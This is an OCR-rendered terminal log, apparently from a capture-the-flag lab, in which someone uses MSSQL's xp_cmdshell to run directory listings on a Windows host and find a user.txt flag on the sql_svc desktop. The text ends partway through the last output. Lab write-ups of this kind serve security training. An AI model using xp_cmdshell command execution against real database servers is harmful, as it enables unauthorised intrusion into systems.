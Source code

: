 SQL> xp_cmdshell dir c:\users\sql_svc\Desktop\
output                                                                             

--------------------------------------------------------------------------------   

 Volume in drive C has no label.                                                   

 Volume Serial Number is 9565-0B4F                                                 

NULL                                                                               

 Directory of c:\users\sql_svc\Desktop                                             

NULL                                                                               

01/20/2020  06:42 AM    <DIR>          .                                           

01/20/2020  06:42 AM    <DIR>          ..                                          

02/25/2020  07:37 AM                32 user.txt                                    

               1 File(s)             32 bytes                                      

               2 Dir(s)  10,715,082,752 bytes free                                 

NULL                                                                               

SQL> xp_cmdshell dir c:\users\sql_svc\Desktop\;
output                                                                             

--------------------------------------------------------------------------------   

 Volume in drive C has no label.                                                   

 Volume Serial Number is 9565-0B4F                                                 

NULL                                                                               

 Directory of c:\users\sql_svc\Desktop                                             

NULL                                                                               

01/20/2020  06:42 AM    <DIR>          .                                           

01/20/2020  06:42 AM    <DIR>          ..                                          

02/25/2020  07:37 AM                32 user.txt                                    

               1 File(s)             32 bytes                                      

               2 Dir(s)  10,715,082,752 bytes free                                 

NULL                                                                               

SQL> xp_cmdshell dir c:\users\sql_svc\Desktop\user.txt;
output                                                                             

--------------------------------------------------------------------------------   

 Volume in drive C has no label.                                                   

 Volume Serial Number is 9565-0B4F                                                 

NULL                                                                               
